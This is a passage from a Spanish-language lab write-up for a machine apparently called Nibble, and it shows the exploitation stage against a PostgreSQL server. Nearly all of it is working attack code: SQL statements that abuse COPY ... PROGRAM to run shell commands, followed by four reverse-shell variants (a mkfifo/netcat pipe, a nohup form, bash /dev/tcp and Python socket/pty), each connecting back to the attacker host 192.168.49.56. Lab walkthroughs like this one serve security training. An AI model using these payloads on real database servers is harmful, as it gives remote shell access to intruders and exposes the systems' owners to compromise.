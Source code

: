 Se realiza una búsqueda de vulnerabilidades conocidas para la versión detectada con resultados positivos.

## 3 Explotación

``` sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(line text);

-- Usa $$...$$ para no pelearte con comillas
COPY cmd_exec FROM PROGRAM $$
bash -c 'rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1 \
| nc 192.168.49.56 80 >/tmp/f'
$$;
```

Se ha obtenido una revershell:

![[Nibble_revershell.png]](../images/Nibble_revershell.png)

Otras formas habrían sido: 

**SIN CREAR TABLA**
``` sql
-- No necesitas tabla en esta variante
COPY (SELECT '') TO PROGRAM $$
bash -c 'nohup bash -c "rm -f /tmp/f; mkfifo /tmp/f; \
cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.49.56 80 >/tmp/f" \
>/dev/null 2>&1 &'
$$;
```

**CON BASH**
``` SQL
COPY (SELECT '') TO PROGRAM $$
bash -c 'nohup bash -i >& /dev/tcp/192.168.49.56/80 0>&1 >/dev/null 2>&1 &'
$$
```

**CON PYTHON**
``` SQL
COPY (SELECT '') TO PROGRAM $$
python3 -c 'import os,pty,socket; s=socket.socket(); s.connect(("192.168.49.56",80));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")' &
$$;
```
